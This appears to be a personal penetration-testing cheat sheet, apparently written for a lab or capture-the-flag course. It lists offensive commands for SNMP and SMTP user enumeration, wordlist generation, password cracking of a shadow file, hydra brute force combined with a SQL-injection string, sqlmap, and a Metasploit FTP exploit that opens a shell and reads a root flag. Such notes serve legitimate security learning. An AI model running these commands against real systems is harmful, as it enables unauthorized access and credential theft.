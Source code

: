 ```bash

# SNMP - simple network management protocol
nmap -sU -p 161 <network>
snmpwalk -v1 IP -c public iso.3.6.1.2.1.1.1.0
# get running processes:
snmpwalk -v1 10.5.81.65 -c public 1.3.6.1.2.1.25.4.2.1.2


# find smtp users
nc -c IP 25
VRFY root # -> answer: does user "root" exist or not?
-> also possible via lists
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/namelist.txt  -t 10.5.72.178
# mit -D für die domain!
smtp-user-enum -M VRFY -U /usr/share/wordlists/npt_list.txt -t 10.5.72.178 -D mailserv

# Generate wordlist from website (Custom Word List generator)
cewl -w generated_wordlist.txt -d 1 -m 5 https://mwager.de

# Password cracking: hydra
man hydra
# also:
crunch, john the ripper etc...
john --wordlist=/usr/share/wordlists/npt_list.txt shadow-file # eg /etc/shadow

# ARP stuff: use bettercap!

# SQL injection: sqlmap
sqlmap -u example.com/login?user=a&pass=b

# metasploit example
$ sudo nmap -sS 10.5.123.80
PORT STATE SERVICE
21/tcp open ftp <---

msfconsole

> search pureftp
> use 0
> show options
> set payload linux/x86/shell/bind_tcp
> set rhost 10.5.123.80
> exploit
>
> > whoami
> > cat /root/flag
```

### Password crask hacks

```
locate wordlist

BEST for passwords:
$ less  /usr/share/wordlists/rockyou.txt

# THIS WORKS:
echo "sdasdsa' or '1' = '1" > mylist.txt
hydra -l test -P ./mylist.txt testphp.vulnweb.com http-post-form "/userinfo.php:uname=^USER^&pass=^PASS^:If you are already registered " -V

# This also:
```
